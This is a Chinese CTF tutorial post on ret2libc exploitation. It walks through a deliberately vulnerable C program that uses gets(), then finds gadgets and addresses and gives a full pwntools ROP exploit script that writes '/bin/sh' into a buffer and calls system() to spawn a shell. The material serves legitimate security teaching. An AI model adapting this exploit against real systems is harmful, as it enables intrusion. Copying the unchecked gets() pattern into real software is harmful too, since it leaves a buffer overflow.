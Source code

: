```yaml
---
layout: post
title: ret2libc攻击技术示例-仅有system()情况下输入“/bin/sh”完成函数调用
categories: tutorials
tags: [CTF, pwn, rop]
---
```


# 情景描述

当程序中并没有直接的`"/bin/sh"`字符串时，我们该如何通过ret2libc技术实现`system("/bin/sh")`的执行呢？这时我们就需要借助`gets` `read`之类的函数，读入我们输入的`"/bin/sh"`到缓冲区后，然后依照ret2libc1的套路一样，将`"/bin/sh"`的地址，也就是缓冲区的地址，模拟传入实现函数调用

# 示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```

本节示例的漏洞程序可以在此处下载： [ret2libc2](http://od7mpc53s.bkt.clouddn.com/ret2libc2)

程序依旧只开启了NX保护
``` bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

# 漏洞分析

利用`gets()`函数，我们可以将`"/bin/sh"`写入到buf2中(buf1也可以)，但是这时需要注意，我们要合理设置`gets()`函数执行完后的返回地址，我们要保证函数执行完后依旧返回到rop链的下部分继续执行，因此我们需要一个gadget作为`gets()`返回地址。

这样，当`gets()`读取"/bin/sh"写入到buf中后，将返回到一个gadget上，gadget继续ret可以返回到下一部分，而这部分我们构造为`system("/bin/sh")`，那么这样的rop chain构造合理，我们就可以成功获取一个shell

``` bash
➜  ret2libc2 objdump -dj .plt ret2libc2 | grep -E "gets|system"
08048460 <gets@plt>:
08048490 <system@plt>:
➜  ret2libc2 ROPgadget --binary ret2libc2 --only 'pop|ret'
Gadgets information
============================================================
......
0x0804843d : pop ebx ; ret
......

Unique gadgets found: 7
➜  ret2libc2 readelf -s ret2libc2 | grep buf2
    59: 0804a080   100 OBJECT  GLOBAL DEFAULT   25 buf2
```

# 攻击代码

``` python
from pwn import *

pop_ebp_ret = 0x0804843d
plt_gets = 0x08048460
plt_system = 0x08048490
buf2 = 0x0804a080

payload = 'A' * 112
payload += p32(plt_gets) + p32(pop_ebp_ret) + p32(buf2)
payload += p32(plt_system) + p32(0xdeadbeef) + p32(buf2)

io = process('ret2libc2')
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```
